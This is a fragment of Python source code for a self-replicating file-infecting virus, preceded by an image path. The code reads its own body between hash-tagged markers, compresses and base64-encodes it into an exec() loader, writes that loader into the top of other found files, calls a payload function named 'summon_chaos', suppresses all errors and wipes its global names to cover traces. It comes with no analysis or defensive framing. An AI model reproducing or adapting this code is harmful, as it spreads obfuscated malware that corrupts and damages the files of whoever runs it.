 ```python
  if (data:=get_content_if_infectable(file, hash)):
    obscured_virus_code = transform_and_obscure_virus_code(virus_code)
    viral_vector = "exec(\"import zlib\\nimport base64\\nexec(zlib.decompress(base64.urlsafe_b64decode("+str(obscured_virus_code)+")))\")"

    with open(file, "w") as infected_file:
      infected_file.write("\n# begin-"+ hash + "\n" + viral_vector + "\n# end-" + hash + "\n")
      infected_file.writelines(data)

def get_virus_code():
  # open the current file and returns the virus code, that is the code between the
  # begin-{hash} and the end-{hash} tags
  virus_code_on = False
  virus_code = []

  virus_hash = hashlib.md5(os.path.basename(__file__).encode("utf-8")).hexdigest()
  code = get_content_of_file(__file__)

  for line in code:
    if "# begin-" + virus_hash in line:
      virus_code_on = True

    if virus_code_on:
      virus_code.append(line + "\n")

    if "# end-" + virus_hash in line:
      virus_code_on = False
      break

  return virus_code

# entry point

try:
  # retrieve the virus code from the current infected script
  virus_code = get_virus_code()

  # look for other files to infect
  for file in find_files_to_infect():
    infect(file, virus_code)

  # call the payload
  summon_chaos()

except:
  pass

finally:
  # delete used names from memory
  for i in list(globals().keys()):
      if(i[0] != '_'):
          exec('del {}'.format(i))

  del i

# end-78ea1850f48d1c1802f388db81698fd0
```
